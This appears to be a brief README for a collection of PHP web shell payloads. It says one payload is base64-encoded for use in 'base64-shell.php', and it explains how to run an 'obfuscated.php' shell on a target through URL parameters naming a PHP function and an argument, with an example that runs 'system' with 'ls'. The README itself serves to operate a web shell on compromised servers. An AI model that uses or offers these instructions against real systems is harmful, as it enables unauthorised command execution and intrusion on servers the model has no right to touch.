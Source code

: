 # PHP Payloads

The file called `example_payload` is for base64 encoding and using in base64-shell.php

##### obfuscated.php usage

Access on the target via: http://target.com/path/to/shell.php?0=function&1=argument, e.g.: http://target.com/path/to/shell.php?0=system&1=ls
